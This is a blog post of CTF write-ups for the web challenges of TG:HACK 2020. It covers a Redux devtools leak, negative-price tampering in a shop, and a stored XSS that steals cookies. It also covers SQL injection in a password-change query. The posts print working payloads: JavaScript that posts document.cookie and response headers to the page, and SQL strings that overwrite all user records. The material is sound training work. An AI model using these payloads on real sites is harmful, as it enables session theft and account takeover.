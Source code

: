 ```yaml
---
layout: post
title: TG:HACK CTF 2020 - Web
permalink: tghackCTF2020
date: 2020-04-11
categories: CTF
tags: writeup
comments: 1
--- 
```


TG:HACK CTF 2020 has been very interesting and intellectually challenging. It made me bang my head on the desk repeatedly in the hopes of numbing the pain of not being able to solve some of the challenges. In the end, I managed to figure out all but the two of the hardest challenges. My writeups are intended to cover the whole process of solving a challenge, so if you don't want a detailed explanation, just scroll to the payloads.

<h3>Redux</h3>
First challenge in the easy category is a React website. As we can tell from the challenge name, it involves the Redux Javascript library. A quick google search reveals that the main thing Redux authors stress to developers that use their code is to keep Redux DevTools out of production environments. Redux Developer Tools can either be used as a browser extension or as a React component and in this case it was a component that should have been disabled. The website greets us with a form that upon submittal doesn't output anything back to us. First solution that the challenge author intended according to her writeup was to get the extension and follow the state change once you submit the form. I however decided to look around the JavaScript sources with regular Firefox Developer Tools and upon opening the file _form.js_, located the flag at the bottom of it. 

<h3>Shop</h3>
This one was my favorite out of the bunch. It involves a form that allows you to borrow and return money and a store that lists a flag for the mere price of 1337. All you need for this challenge is an intercepting proxy of your choice, be it Burp or ZAP. The goal here is to find a vulnerable parameter by checking which ones have validation. If you test the borrow and return functions, you will notice that they do not accept negative values, values that are too large or special characters that might break the functionality. If you go to the store and try to buy something, you will see that a purchase only succeeds if the submitted _ID_ and _Price_ correspond to an item with those parameters in the store. If you try to submit _ID_ 13 for the flag with any _price_ other than 1337, you will get an insufficient funds error. The vulnerability here can be discovered by playing around with the _id_ parameter. If you issue a post request to an id that is not used anywhere in the store, you will not get an insufficient funds error, you will have the funds deducted. Since this functionality is unintended, we should expect that there would be no validation of the _price_ parameter, since users were never intended to be able to submit arbitrary values there. If you supply the server with a negative value to a non-existant _id_, you will get that money back. So, if you issue a post with:
{% highlight language %}price=-1337&id=0{% endhighlight %}
you will now have enough money to buy the flag.

<h3>Exfiltration</h3>
I have never spent this much time on a single challenge that is this simple. It's a simple post board without any input validation, so you can supply any html and JavaScript that you like. It is linked to the _script.js_ file, which uses _XMLHttpRequest_ to post whatever you input into the textbox to the posts board. The challenge description states that this forum's members are behind a firewall, which implies that whatever information we need to get from them, is supposed to be somehow posted to the page. Knowing all that, we can all agree that it's obvious we are supposed to XSS the forum members with a payload that will use _XMLHttpRequest_ to post their information. I have realized that from the start and actually worked out a functioning payload that also made a GET request to the page and would output all the headers and cookies.

{% highlight javascript %}<script>
var xhr = new XMLHttpRequest();
var post = new XMLHttpRequest();

post.onreadystatechange = function() {
    console.log('POST - State: ' + xhr.readyState + '; Status: ' + xhr.status);
    if (post.readyState == 4) {
        console.log('!!! POST Complete !!!');
    }
};

xhr.onreadystatechange = function() {
    console.log('GET - State: ' + xhr.readyState + '; Status: ' + xhr.status);

    if (xhr.readyState == 4) {
        console.log('!!! GET Complete !!!');
        post.open('POST', window.location.href, true);
        post.send('Status:' + xhr.status + '<br>Headers:<br>' + xhr.getAllResponseHeaders() + '<br>Body:<br>' + xhr.responseText + '<br>Cookie:<br>' + document.cookie);
    }
};

xhr.open('GET', 'window.location.href', true);
xhr.send();
</script>{% endhighlight %}

For whatever reason this payload would post everything but the cookie and as it turned out later, the cookie held the flag. I am a little disappointed that a simple bug like this prevented me from properly solving this and forced me to spend over 12 hours on this challenge, but hey, I've learned a lot about _XMLHttpRequest_. The challenge author posted this payload in his writeup:
{% highlight javascript %}
let xhr = new XMLHttpRequest();
xhr.open("post", window.location.href, true);
xhr.send(document.cookie);{% endhighlight %}
This should have posted the flag to the forum, but did not in my repeated attempts.

<h3>Bobby:</h3>
Bobby has forgotten his password for this website. This website greets us with a login prompt and a function for changing the password. This kind of functionality screams "SQL Injection" and the first thing you should of course do is supply special characters to all parameters to see if anything breaks. After I supplied single quotes in every parameter for the password change function, it became apparent to me that there's SQL Injection here, because the website would spit out the words "unrecognized token" when supplied a single quote in the new password parameter. We know this is a Change Password function, not a regular _SELECT_ query, therefore a normal payload such as _' OR 1=1 --'_ wouldn't work. If it's not a regular _SELECT_ query, what is it? It's an _UPDATE_ query. We can guess that if we comment out the rest of the query through the new password parameter. It responds with:
{% highlight sql %}WHERE user=? AND pass=?{% endhighlight %}
We can infer that it takes the username and the old password, finds the record that corresponds to them and then sets the password to the new password that we supply. Here's the _UPDATE_ query syntax from W3:
{% highlight sql %}
UPDATE table_name
SET column1 = value1, column2 = value2, ...
WHERE condition;{% endhighlight %}

We can infer that the query for Bobby looks something like this:
{% highlight sql %}
UPDATE users
SET pass = NEW_PASS
WHERE user=USERNAME, pass=OLD_PASS{% endhighlight %}

This query expects exactly 3 variables from us and if we supply any less, it will give an error, so that should be the first thing we fix. Since we are able to comment out the _WHERE_ clause of the query, we can replace it with our own: 
{% highlight sql %}
WHERE True OR pass=? OR user=? --{% endhighlight %}

The following payload would change the password of the user _bobby_ to _123_, if there is a user named _bobby_:
{% highlight sql %}
',pass=123 WHERE user="bobby" OR pass=? OR user=? --{% endhighlight %}

However, if we try to login with these new credentials, we will fail, perhaps because the name is spelled differently or the casing is different, so that problem is easily fixed by also updating the user field like this:
{% highlight sql %}
',pass=123, user="bobby" WHERE True OR pass=? OR user=? --{% endhighlight %}

This payload will match the records and change them to bobby with password 123. If we log in with those credentials, we get the flag.

